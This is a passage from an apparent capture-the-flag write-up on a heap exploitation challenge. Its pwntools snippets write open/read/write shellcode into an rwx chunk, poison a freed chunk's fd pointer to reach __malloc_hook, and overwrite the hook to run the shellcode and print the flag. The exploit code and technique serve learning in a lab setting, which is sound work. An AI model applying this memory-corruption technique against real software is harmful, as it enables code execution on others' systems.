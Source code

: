```py
           mov rsi, rsp
           mov rdx, 0x30
           mov rax, 0x%x
           call rax""" %(libc.symbols['open'], libc.symbols['read'], libc.symbols['write']))

```

![](img/shellcode.png)

Now, we create a chunk which will just give the `rwx` pointer, then we edit that allocated chunk with the shellcode:-

```py
create(0x100)
edit(5, shellcode)
```

Now, then we overwrite the chunk 4 `fd` with `__malloc_hook`, then on next allocation we will have the `__malloc_hook` address, which we overwrite it with the `rwx` addresss exactly where the shellcode resides.

```py
edit(4, p64(libc.symbols['__malloc_hook']))
create(0x100)
edit(6, p64(0x0000000066660000))
```

![](img/malloc_hook.png)

Now, we just do try to call `malloc` and we get the flag.
